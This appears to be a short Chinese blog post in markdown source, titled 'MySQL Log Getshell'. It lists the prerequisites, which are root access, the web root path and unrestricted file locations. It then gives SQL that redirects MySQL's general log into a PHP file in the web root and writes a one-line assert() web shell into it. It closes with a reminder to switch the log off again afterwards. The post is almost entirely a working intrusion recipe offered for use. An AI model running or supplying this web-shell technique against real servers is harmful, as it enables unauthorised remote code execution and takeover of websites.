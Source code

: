 ```yaml
---
title: "MySQL Log Getshell"
date: 2018-01-09T00:00:00+08:00
draft: false
tags: ['mysql']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


require:

- root权限.
- 网站物理路径.
- 文件位置未被限制.

<!--more-->

```
set global general_log = on;
set global general_log_file = 'F:/phpStudy/WWW/a.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```

别忘了处理后事 (off).
